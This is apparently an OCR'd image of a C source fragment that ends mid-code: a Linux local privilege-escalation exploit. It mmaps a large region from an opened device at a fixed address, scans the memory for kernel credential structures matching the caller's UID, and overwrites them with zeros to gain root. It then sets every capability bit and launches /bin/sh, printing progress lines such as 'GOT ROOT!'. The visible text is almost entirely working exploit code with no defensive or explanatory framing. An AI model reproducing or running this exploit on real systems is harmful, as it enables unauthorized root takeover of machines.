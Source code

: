 ```c
	if (fd < 0)
	{
		printf("[-] Open failed!\n");
		return -1;
	}
	printf("[+] Open OK fd: %d\n", fd);
	unsigned long size = 0xf0000000;
	unsigned long mmapStart = 0x42424000;
	unsigned int * addr = (unsigned int *)mmap((void*)mmapStart, size, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0x0);
	if (addr == MAP_FAILED)
	{
		perror("Failed to mmap: ");
		close(fd);
		return -1;
	}
	printf("[+] mmap OK addr: %lx\n", addr);
	
	unsigned int uid = getuid();
	printf("[+] UID: %d\n", uid);
	unsigned int credIt = 0;
	unsigned int credNum = 0;
	while (((unsigned long)addr) < (mmapStart + size - 0x40))
	{
		credIt = 0;
		if (
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid
		)
		{
			credNum++;
			printf("[+] Found cred structure! ptr: %p, credNum: %d\n", addr, credNum);
			credIt = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			if (getuid() == 0)
			{
				puts("[+] GOT ROOT!");
				credIt += 1; //Skip 4 bytes, to get capabilities
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				addr[credIt++] = 0xffffffff;
				execl("/bin/sh", "-", (char *)NULL);
				puts("[-] Execl failed...");
```